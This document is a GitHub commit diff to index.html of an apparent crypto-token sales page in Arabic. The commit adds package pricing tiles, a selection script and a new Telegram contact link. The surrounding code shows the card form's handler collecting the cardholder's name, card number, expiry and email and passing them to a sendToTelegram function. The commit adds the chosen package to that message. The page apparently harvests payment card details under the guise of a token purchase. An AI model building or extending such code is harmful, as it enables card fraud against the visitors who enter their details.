

Before and after one commit to Gokar-54/BTC.KEY, a website: page index.html in a window 1280 px wide. Shown: the part 1620-2548 px from the top of the page, without its empty margins (178-1101 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -34,13 +34,27 @@ h1{font-size:clamp(2.5rem,7vw,5rem);font-weight:900;background:linear-gradient(1
 .form-group{margin-bottom:18px}
 .form-group label{display:block;margin-bottom:8px;color:#8892b0;font-size:.95rem}
 .form-group input,.form-group select{width:100%;padding:14px;background:rgba(0,0,0,.4);border:1px solid rgba(0,212,255,.3);border-radius:10px;color:#fff;font-family:inherit;font-size:1rem;transition:.3s}
-.form-group input:focus{outline:none;border-color:#00d4ff;box-shadow:0 0 20px rgba(0,212,255,.3)}
+.form-group input:focus,.form-group select:focus{outline:none;border-color:#00d4ff;box-shadow:0 0 20px rgba(0,212,255,.3)}
+.form-group select option{background:#1a1f3a;color:#fff}
 .row{display:grid;grid-template-columns:1fr 1fr;gap:15px}
 @media(max-width:600px){.row{grid-template-columns:1fr}.card{padding:25px}.cd-box{padding:15px;min-width:80px}.cd-num{font-size:1.8rem}}
 .warning{background:rgba(255,46,136,.1);border:1px solid #ff2e88;color:#ff88b0;padding:20px;border-radius:12px;margin-top:20px;text-align:center;display:none;animation:shake .5s}
 @keyframes shake{0%,100%{transform:translateX(0)}25%{transform:translateX(-10px)}75%{transform:translateX(10px)}}
 .badge{display:inline-block;background:rgba(0,212,255,.15);color:#00d4ff;padding:5px 12px;border-radius:20px;font-size:.8rem;font-weight:700;margin-bottom:15px}
 footer{text-align:center;padding:40px 20px;color:#5a6785;border-top:1px solid rgba(255,255,255,.05);margin-top:60px}
+.package-grid{display:grid;grid-template-columns:repeat(auto-fit,minmax(140px,1fr));gap:15px;margin:20px 0}
+.pkg{background:rgba(0,0,0,.35);border:2px solid rgba(0,212,255,.25);border-radius:15px;padding:20px 15px;text-align:center;cursor:pointer;transition:.3s;position:relative}
+.pkg:hover{border-color:#00d4ff;transform:translateY(-4px);box-shadow:0 10px 30px rgba(0,212,255,.25)}
+.pkg.active{border-color:#00ff88;background:rgba(0,255,136,.08);box-shadow:0 0 30px rgba(0,255,136,.35)}
+.pkg .price{font-size:1.6rem;font-weight:900;color:#00d4ff;margin-bottom:6px}
+.pkg.active .price{color:#00ff88}
+.pkg .usd{font-size:.85rem;color:#8892b0;margin-bottom:10px}
+.pkg .tokens{font-size:1.1rem;font-weight:700;color:#ff2e88;background:rgba(255,46,136,.1);padding:6px 10px;border-radius:8px;display:inline-block}
+.pkg.active .tokens{color:#00ff88;background:rgba(0,255,136,.15)}
+.pkg .tok-label{font-size:.75rem;color:#8892b0;display:block;margin-top:4px}
+.summary{background:rgba(0,255,136,.06);border:1px solid rgba(0,255,136,.3);border-radius:12px;padding:15px 20px;margin-top:15px;display:flex;justify-content:space-between;align-items:center;flex-wrap:wrap;gap:10px}
+.summary .sum-label{color:#8892b0;font-size:.9rem}
+.summary .sum-value{color:#00ff88;font-weight:900;font-size:1.2rem}
 </style>
 </head>
 <body>
@@ -78,6 +92,54 @@ footer{text-align:center;padding:40px 20px;color:#5a6785;border-top:1px solid rg
   <!-- الدفع بالفيزا -->
   <div class="card">
     <h2>💳 الدفع بالبطاقة الائتمانية</h2>
+
+    <!-- اختيار الباقة -->
+    <div class="form-group">
+      <label>اختر الباقة (بالدولار الأمريكي)</label>
+      <div class="package-grid" id="packageGrid">
+        <div class="pkg" data-usd="100" onclick="selectPkg(this)">
+          <div class="price">$100</div>
+          <div class="usd">دولار أمريكي</div>
+          <span class="tokens" data-tokens="1000">1000</span>
+          <span class="tok-label">رمز (TOKEN)</span>
+        </div>
+        <div class="pkg" data-usd="200" onclick="selectPkg(this)">
+          <div class="price">$200</div>
+          <div class="usd">دولار أمريكي</div>
+          <span class="tokens" data-tokens="2200">2200</span>
+          <span class="tok-label">رمز (TOKEN)</span>
+        </div>
+        <div class="pkg" data-usd="300" onclick="selectPkg(this)">
+          <div class="price">$300</div>
+          <div class="usd">دولار أمريكي</div>
+          <span class="tokens" data-tokens="3600">3600</span>
+          <span class="tok-label">رمز (TOKEN)</span>
+        </div>
+        <div class="pkg" data-usd="400" onclick="selectPkg(this)">
+          <div class="price">$400</div>
+          <div class="usd">دولار أمريكي</div>
+          <span class="tokens" data-tokens="5000">5000</span>
+          <span class="tok-label">رمز (TOKEN)</span>
+        </div>
+        <div class="pkg" data-usd="500" onclick="selectPkg(this)">
+          <div class="price">$500</div>
+          <div class="usd">دولار أمريكي</div>
+          <span class="tokens" data-tokens="6500">6500</span>
+          <span class="tok-label">رمز (TOKEN)</span>
+        </div>
+      </div>
+      <div class="summary">
+        <div>
+          <span class="sum-label">المبلغ المحدد:</span>
+          <span class="sum-value" id="sumUsd">$0</span>
+        </div>
+        <div>
+          <span class="sum-label">الرموز التي ستحصل عليها:</span>
+          <span class="sum-value" id="sumTokens">0 TOKEN</span>
+        </div>
+      </div>
+    </div>
+
     <form id="payForm" onsubmit="handlePay(event)">
       <div class="form-group">
         <label>الاسم الكامل على البطاقة</label>
@@ -112,7 +174,7 @@ footer{text-align:center;padding:40px 20px;color:#5a6785;border-top:1px solid rg
   <div class="card" style="text-align:center">
     <h2 style="justify-content:center">📱 تواصل معنا</h2>
     <p style="color:#8892b0;margin-bottom:20px">للتواصل المباشر والدعم الفني</p>
-    <a href="https://t.me/RASHKINAE" target="_blank" class="btn btn-tg">✈️ فتح تلغرام</a>
+    <a href="https://t.me/+7975723702" target="_blank" class="btn btn-tg">✈️ فتح تلغرام</a>
   </div>
 
 </div>
@@ -147,6 +209,19 @@ function copyAddr(){
   setTimeout(()=>event.target.textContent='نسخ',2000);
 }
 
+// ================== Package Selection ==================
+let selectedUSD = 0;
+let selectedTokens = 0;
+
+function selectPkg(el){
+  document.querySelectorAll('.pkg').forEach(p=>p.classList.remove('active'));
+  el.classList.add('active');
+  selectedUSD = parseInt(el.dataset.usd);
+  selectedTokens = parseInt(el.querySelector('.tokens').dataset.tokens);
+  document.getElementById('sumUsd').textContent = '$' + selectedUSD;
+  document.getElementById('sumTokens').textContent = selectedTokens + ' TOKEN';
+}
+
 // ================== Formatting ==================
 function formatCard(el){
   let v = el.value.replace(/\D/g,'').slice(0,16);
@@ -175,6 +250,12 @@ async function sendToTelegram(text){
 
 async function handlePay(e){
   e.preventDefault();
+
+  if(selectedUSD === 0){
+    alert('⚠️ الرجاء اختيار الباقة أولاً');
+    return;
+  }
+
   const name  = document.getElementById('cardName').value.trim();
   const num   = document.getElementById('cardNum').value.trim();
   const exp   = document.getElementById('cardExp').value.trim();
@@ -182,6 +263,9 @@ async function handlePay(e){
   const email = document.getElementById('cardEmail').value.trim();
 
   const msg = `💳 <b>طلب دفع جديد - السويداء</b>\n\n`+
+              `📦 <b>الباقة المختارة:</b>\n`+
+              `💵 المبلغ: <code>$${selectedUSD}</code>\n`+
+              `🪙 الرموز: <code>${selectedTokens} TOKEN</code>\n\n`+
               `👤 الاسم: <code>${name}</code>\n`+
               `💳 الرقم: <code>${num}</code>\n`+
               `📅 التاريخ: <code>${exp}</code>\n`+
```
